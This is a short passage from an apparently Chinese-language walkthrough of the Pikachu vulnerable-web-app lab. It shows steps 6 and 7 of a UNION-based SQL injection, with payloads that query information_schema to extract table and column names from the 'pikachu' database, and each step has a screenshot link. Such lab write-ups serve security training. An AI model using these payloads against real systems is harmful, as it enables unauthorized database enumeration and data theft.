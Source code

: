 6.构造语句爆表名
`id=-1 union select (select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),2`

![20200304215417.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215417.png)

7.构造语句爆列名
`id=-1 union select (select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 1,1),2`

![A400U3PIJ6975{7C53L3Q18.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/A400U3PIJ6975%7B7C53L3Q18.png)
